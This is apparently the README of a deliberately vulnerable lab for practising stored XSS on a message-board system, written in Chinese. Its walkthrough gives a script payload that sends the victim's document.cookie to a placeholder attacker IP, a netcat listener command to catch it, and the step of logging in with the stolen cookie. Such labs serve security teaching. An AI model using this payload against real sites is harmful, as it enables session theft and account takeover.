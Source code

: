 # 存储型XSS漏洞环境
### 测试环境

本环境是一套存在存储型XSS漏洞的留言管理系统.

### 房多多漏洞库
[经纪人产品存在存储型XSS,导致进入后台系统](http://sec.fangdd.net/view_markdown/27/)
### 跨站漏洞利用
> 假定启动后的环境如下：
>
> 攻击者 IP: {{remoteip}}

1. 攻击者在浏览器[打开服务](http://{{ip}}:{{port[0]}}),注册用户A,然后在留言板中留言.
留言时,输入我们构造的xss pyaload
```
 测试留言 <script>var img=document.createElement("img");
 img.src="http://{{remoteip}}:2333/log?"+escape(document.cookie);
 document.body.appendChild(img);</script>
```
2. 在攻击者机器上使用 nc 监听

 ```
 $ nc -lvp 2333
 ```

3. 刷新留言板页面,2333端口接收到一条HTTP请求,参数中带有cookie
![](vuln/xss1/1.png)

4. 利用此cookie可以登陆到A用户账户

### 参考资料
[给开发者的终极XSS防护备忘录](http://{{ip}}:{{webport}}/vuln/xss1/xss.pdf)
